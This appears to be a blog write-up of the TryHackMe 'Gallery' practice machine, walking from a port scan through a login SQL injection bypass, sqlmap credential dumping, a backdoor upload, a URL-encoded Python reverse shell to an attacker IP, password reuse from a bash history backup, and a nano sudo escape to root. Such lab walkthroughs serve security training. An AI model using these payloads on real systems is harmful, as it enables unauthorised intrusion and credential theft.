 ```yaml
---
layout: post
title:  "Gallery"
categories: [tryhackme]
tags: [linux, sqli, upload, nano, backup]
---
```


You can find this machine here : `https://tryhackme.com/room/gallery666`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ nmap 10.10.66.67      

PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy
```

### Simple Image Gallery System - SQL Injection


![image]( /assets/img/gallery/1.PNG)


- We are able to login without password
- Just type :

```bash
username : admin'#
```

![image]( /assets/img/gallery/2.gif)


```bash
┌──(kali㉿Zeus)-[~]
└─$ searchsploit Simple Image Gallery System
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Simple Image Gallery System 1.0 - 'id' SQL Injection                             | php/webapps/50198.txt
--------------------------------------------------------------------------------- ---------------------------------
```

- Request

![image]( /assets/img/gallery/3.gif)

```bash
GET /gallery/?page=albums/images&id=6 HTTP/1.1
Host: 10.10.66.67
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.66.67/gallery/?page=albums
Cookie: PHPSESSID=3enduhu52j21fptfp8ck3fpqcs
Upgrade-Insecure-Requests: 1
```

### SQLmap

```bash
sqlmap -r gal.req -D gallery_db -T users --dump
```

![image]( /assets/img/gallery/4.PNG)

### Upload a backdoor as album images

![image]( /assets/img/gallery/5.PNG)

### RCE Confirmed

![image]( /assets/img/gallery/6.PNG)

### Reverse Shell

- payload

```bash
python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%2210.18.45.56%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22sh%22)%27
```

![image]( /assets/img/gallery/7.PNG)

- better shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Control + z
stty raw -echo;fg
ENTER
```

### Privileges Escalation to Mike

```bash
cd /var/backups/mike_home_backup
cat .bash_history
su mike
enter the password
```

![image]( /assets/img/gallery/8.PNG)

### Privileges Escalation to Root

```bash
mike@gallery:~$ sudo -l
sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
mike@gallery:~$ 
```

### rootkit.sh


`cat /opt/rootkit.sh`

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

- exploitation

```bash
sudo -u root /bin/bash /opt/rootkit.sh
read
^R^X
reset; sh 1>&0 2>&0
```

### Rooted

![image]( /assets/img/gallery/9.gif)

